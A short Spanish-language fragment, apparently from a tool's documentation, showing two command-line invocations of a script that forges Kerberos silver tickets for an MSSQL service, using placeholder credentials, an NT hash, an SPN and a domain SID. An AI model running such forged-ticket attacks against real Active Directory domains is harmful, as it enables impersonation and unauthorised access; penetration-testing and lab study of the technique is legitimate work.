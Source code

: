 Opción 1 – dejar que el script obtenga el SID:

python3 silver_ticket_auto.py \
  -t 192.168.100.10 \
  -u svc-sql \
  -p 'Password123!' \
  --domain red.interna \
  --nt 11223344556677889900aabbccddeeff \
  --spn MSSQLSvc/sqlserver.red.interna:1433

Opción 2 – ya tienes el SID:

python3 silver_ticket_auto.py \
  -u svc-sql \
  --domain red.interna \
  --nt 11223344556677889900aabbccddeeff \
  --spn MSSQLSvc/sqlserver.red.interna:1433 \
  --sid S-1-5-21-1234567890-2345678901-3456789012

